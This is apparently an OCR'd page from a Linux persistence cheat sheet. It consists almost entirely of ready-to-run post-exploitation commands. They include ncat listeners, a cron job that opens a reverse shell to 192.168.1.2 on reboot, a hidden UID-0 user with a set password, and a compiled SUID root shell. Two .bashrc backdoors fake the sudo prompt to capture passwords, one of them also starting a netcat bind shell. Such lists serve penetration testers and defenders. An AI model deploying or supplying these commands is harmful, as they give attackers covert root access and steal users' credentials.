 ## Persistência 


Basic reverse shell 
```
ncat --udp -lvp 4242 
ncat --sctp -lvp 4242 
ncat --tcp -lvp 4242 
```

Add a root user 
```
sudo useradd -ou 0 -g 0 john 
sudo passwd john 
echo "linuxpassword" | passwd --stdin john 
```

Suid Binary 
```
TMPDIR2="/var/tmp" 
echo 'int main(void){setresuid(0, 0, 0);system("/bin/sh");}' > 
$TMPDIR2/croissant.c 
gcc $TMPDIR2/croissant.c -o $TMPDIR2/croissant 2>/dev/null 
rm $TMPDIR2/croissant.c 
chown root:root $TMPDIR2/croissant 
chmod 4777 $TMPDIR2/croissant 
```

Crontab - Reverse shell
```
(crontab -l ; echo "@reboot sleep 200 && ncat 192.168.1.2 4242 -e /bin/bash")|crontab 2> /dev/null 
```

Backdooring a user's bash_rc 
(FR/EN Version) 
```
TMPNAME2=".systemd-private-b21245afee3b3274d4b2e2-systemd-timesyncd.serviceIgCBE0" 
cat << EOF > /tmp/$TMPNAME2 
	alias sudo='locale=$(locale | grep LANG | cut -d= -f2 | cut -d_ -f1);if [ \$locale = "en" ]; then echo -n "[sudo] password for \$USER: ";fi;if [ \$locale = "fr" ]; then echo -n "[sudo] Mot de passe de \$USER: ";fi;read -s pwd;echo; unalias sudo; echo "\$pwd" | /usr/bin/sudo -S nohup nc -lvp 1234 -e /bin/bash > /dev/null && /usr/bin/sudo -S ' 
EOF 
if [ -f ~/.bashrc ]; then 
	cat /tmp/$TMPNAME2 >> ~/.bashrc 
fi 
if [ -f ~/.zshrc ]; then 
	cat /tmp/$TMPNAME2 >> ~/.zshrc 
fi 
rm /tmp/$TMPNAME2 
```
or add the following line inside its .bashrc file. 
```
$ chmod u+x ~/.hidden/fakesudo 
$ echo "alias sudo=~/.hidden/fakesudo" >> ~/.bashrc 
```
and create the fakesudo script. 
```
read -sp "[sudo] password for $USER: " sudopass 
echo "" 
sleep 2 
echo "Sorry, try again." 
echo $sudopass >> /tmp/pass.txt 

/usr/bin/sudo $@ 
```

